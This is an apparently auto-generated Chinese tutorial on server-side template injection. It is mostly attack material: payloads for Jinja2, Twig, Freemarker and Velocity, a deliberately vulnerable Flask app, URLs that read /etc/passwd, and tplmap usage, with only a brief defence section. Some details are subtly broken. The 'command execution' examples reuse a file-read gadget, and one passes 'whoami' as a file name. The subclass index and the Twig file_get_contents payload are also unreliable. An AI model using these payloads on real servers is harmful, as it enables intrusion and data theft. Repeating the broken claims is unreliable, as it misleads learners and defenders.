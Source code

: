 # 服务端模板注入（SSTI）攻击技术

## 1. 技术原理解析

### 1.1 什么是服务端模板注入（SSTI）？

服务端模板注入（Server-Side Template Injection, SSTI）是一种安全漏洞，攻击者通过向服务器端模板引擎注入恶意代码，从而在服务器端执行任意命令或访问敏感数据。模板引擎通常用于动态生成HTML、XML或其他格式的文档，常见的模板引擎包括Jinja2（Python）、Twig（PHP）、Freemarker（Java）等。

### 1.2 底层实现机制

模板引擎的工作机制是将模板文件与数据结合，生成最终的输出。模板文件中通常包含占位符或控制结构，模板引擎会根据传入的数据填充这些占位符或执行控制逻辑。如果用户输入的数据未经严格过滤或验证，攻击者可以通过构造恶意输入，将代码注入到模板中，从而在服务器端执行。

### 1.3 漏洞成因

SSTI漏洞的成因通常包括：
- **用户输入直接嵌入模板**：将用户输入直接嵌入到模板中，未进行适当的过滤或转义。
- **模板引擎配置不当**：模板引擎的配置允许执行任意代码或访问敏感对象。
- **模板文件未受保护**：模板文件可以被用户访问或修改。

## 2. 常见攻击手法和利用方式

### 2.1 基本攻击手法

#### 2.1.1 注入点识别

攻击者首先需要识别模板引擎的类型和注入点。常见的识别方法包括：
- **输入特殊字符**：输入`{{7*7}}`，如果返回`49`，则可能存在SSTI漏洞。
- **错误信息分析**：通过输入恶意代码，观察服务器返回的错误信息，判断模板引擎类型。

#### 2.1.2 代码执行

一旦识别出模板引擎类型，攻击者可以构造恶意输入，执行任意代码。例如：
- **Jinja2**：`{{ ''.__class__.__mro__[1].__subclasses__() }}`，可以列出所有子类，进一步利用。
- **Twig**：`{{ _self.env.registerUndefinedFilterCallback("exec") }}`，可以执行系统命令。

### 2.2 高级利用技巧

#### 2.2.1 绕过过滤

如果模板引擎对用户输入进行了过滤，攻击者可以通过以下方式绕过：
- **编码绕过**：使用URL编码、Base64编码等方式绕过过滤。
- **多级注入**：通过多次注入，逐步构造恶意代码。

#### 2.2.2 利用内置函数

许多模板引擎提供了内置函数或对象，攻击者可以利用这些函数执行系统命令或访问敏感数据。例如：
- **Freemarker**：`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("whoami") }`，可以执行系统命令。
- **Velocity**：`#set($x=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))`，可以执行系统命令。

#### 2.2.3 文件读写

通过模板引擎的文件操作功能，攻击者可以读取或写入服务器上的文件。例如：
- **Jinja2**：`{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}`，可以读取系统文件。
- **Twig**：`{{ file_get_contents('/etc/passwd') }}`，可以读取系统文件。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

#### 3.1.1 安装模板引擎

以Python的Jinja2为例，安装步骤如下：
```bash
pip install jinja2
```

#### 3.1.2 创建漏洞应用

创建一个简单的Flask应用，模拟SSTI漏洞：
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    name = request.args.get('name', 'Guest')
    template = f"<h1>Hello, {name}!</h1>"
    return render_template_string(template)

if __name__ == '__main__':
    app.run(debug=True)
```

### 3.2 攻击步骤

#### 3.2.1 识别注入点

访问`http://localhost:5000/?name={{7*7}}`，如果返回`Hello, 49!`，则存在SSTI漏洞。

#### 3.2.2 执行系统命令

利用Jinja2的SSTI漏洞，执行系统命令：
```bash
http://localhost:5000/?name={{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
```

#### 3.2.3 获取敏感信息

通过读取系统文件，获取敏感信息：
```bash
http://localhost:5000/?name={{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
```

## 4. 实际命令、代码或工具使用说明

### 4.1 常用工具

#### 4.1.1 tplmap

`tplmap`是一个自动化SSTI漏洞检测和利用工具，支持多种模板引擎。使用方法如下：
```bash
git clone https://github.com/epinna/tplmap.git
cd tplmap
python tplmap.py -u 'http://localhost:5000/?name=*'
```

#### 4.1.2 SSTI Scanner

`SSTI Scanner`是一个简单的SSTI漏洞扫描工具，使用方法如下：
```bash
git clone https://github.com/vladko312/SSTI-Scanner.git
cd SSTI-Scanner
python ssti_scanner.py -u 'http://localhost:5000/?name=*'
```

### 4.2 常用命令

#### 4.2.1 执行系统命令

利用Jinja2的SSTI漏洞，执行系统命令：
```bash
http://localhost:5000/?name={{ ''.__class__.__mro__[1].__subclasses__()[40]('whoami').read() }}
```

#### 4.2.2 读取系统文件

利用Jinja2的SSTI漏洞，读取系统文件：
```bash
http://localhost:5000/?name={{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
```

## 5. 防御措施

### 5.1 输入验证和过滤

对所有用户输入进行严格的验证和过滤，避免直接将用户输入嵌入到模板中。

### 5.2 使用安全的模板引擎

选择安全性较高的模板引擎，并确保其配置正确，避免执行任意代码。

### 5.3 限制模板文件访问

确保模板文件不能被用户直接访问或修改，设置适当的文件权限。

### 5.4 定期安全审计

定期对应用进行安全审计，及时发现和修复潜在的SSTI漏洞。

## 结论

服务端模板注入（SSTI）是一种严重的安全漏洞，攻击者可以通过注入恶意代码，在服务器端执行任意命令或访问敏感数据。通过深入理解SSTI的技术原理和攻击手法，结合有效的防御措施，可以显著降低SSTI漏洞的风险。

---

*文档生成时间: 2025-03-11 13:33:34*
